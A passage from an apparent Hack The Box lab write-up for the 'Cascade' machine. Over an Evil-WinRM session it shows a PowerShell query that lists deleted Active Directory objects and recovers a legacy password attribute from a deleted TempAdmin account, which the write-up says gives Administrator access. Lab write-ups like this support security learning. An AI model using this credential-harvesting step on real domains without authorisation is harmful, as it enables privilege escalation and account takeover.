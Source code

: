 ![](HTB/Medium/Cascade/Pasted%20image%2020230316233054.png)

Judging from the [Hacktricks section](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges#ad-recycle-bin) about the `AD Recycle Bin` group we can list all AD object that were deleted, thus allowing us to retrieve the `TempAdmin` object
```
*Evil-WinRM* PS C:\Users\arksvc\Documents> Get-ADObject -filter 'isDeleted -eq $true -and sAMAccountName -eq "TempAdmin"' -includeDeletedObjects -Properties *
...
cascadeLegacyPwd                : YmFDVDNyMWFOMDBkbGVz
CN                              : TempAdmin
...
sAMAccountName                  : TempAdmin
sDRightsEffective               : 0
userAccountControl              : 66048
userPrincipalName               : TempAdmin@cascade.local
uSNChanged                      : 237705
uSNCreated                      : 237695
whenChanged                     : 1/27/2020 3:24:34 AM
whenCreated                     : 1/27/2020 3:23:08 AM
```

Using the password inside `cascadeLegacyPwd` attribute, we can login as the Administrator and get the root password

## Videos references
### IppSec
{{< youtube mr-fsVLoQGw >}}